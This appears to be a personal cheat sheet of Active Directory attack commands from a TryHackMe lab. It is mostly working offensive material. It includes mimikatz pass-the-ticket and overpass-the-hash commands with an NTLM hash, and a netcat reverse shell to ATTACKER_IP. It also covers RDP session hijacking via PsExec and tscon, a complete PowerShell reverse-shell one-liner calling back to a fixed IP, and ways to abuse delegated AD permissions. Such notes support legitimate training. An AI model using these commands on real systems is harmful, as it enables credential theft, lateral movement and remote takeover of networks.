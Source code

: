 
## PASS THE TICKET
*TGT cant be exported with admin priv, TGS with low priv*
`privilege::debug`
`sekurlsa::tickets /export`
`kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
`*inject the ticket in the current session*
`klist`*Running this in powershell will show cached-injected cred*


## PASS THE KEY
`privilege::debug`
`sekurlsa::ekeys`
`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`*When using RC4 instead of AES and etc, the key will be equal to the NTLM hash,we can use it to request a TGT- Known as Overpass-the-Hash (OPtH)*

# RDP hijacking(without password before Windows server 2019)
`PsExec64.exe -s cmd.exe`*Get system priv*
`query user` *Check for State :disc*
`tscon 3 /dest:rdp-tcp#6`*Session 3 with is disc should be connected to our: tcp#6*

# Reverse Shell 

`$client = New-Object System.Net.Sockets.TCPClient('10.50.112.55',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
` 

# Permission Delegation (ACE's)
https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

    ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
    AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
    GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
    GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
    WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
    WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
    AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.
